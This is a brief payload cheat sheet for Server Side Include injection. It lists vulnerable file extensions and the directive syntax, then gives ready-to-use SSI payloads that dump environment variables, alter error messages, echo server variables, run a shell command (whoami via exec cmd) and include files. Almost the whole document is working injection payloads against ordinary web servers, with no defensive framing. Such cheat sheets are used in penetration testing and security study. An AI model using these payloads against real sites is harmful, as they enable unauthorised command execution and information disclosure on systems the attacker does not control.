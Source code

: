 SERVER SIDE INCLUDE
Potential vulnerable site extensions are: .shtml, .shtm, .stm

Directive Syntax:
```
<!--#name param1="value1" param2="value" -->
```



#### Payloads

Print env variable (no parameters).
```
<!--#printenv -->
```

Change the error message in the SSI configurations.
```
<!--#config errmsg="Error!" -->
```

echo variables of calle parameters, supported parameters: DOCUMENT_NAME, DOCUMENT_URI, LAST_MODIFIED, DATE_LOCAL.
```
<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->
```

Execute command
```
<!--#exec cmd="whoami" -->
```

Include file specified in virtual parameter. Can only do files in root directory
```
<!--#include virtual="index.html" -->
```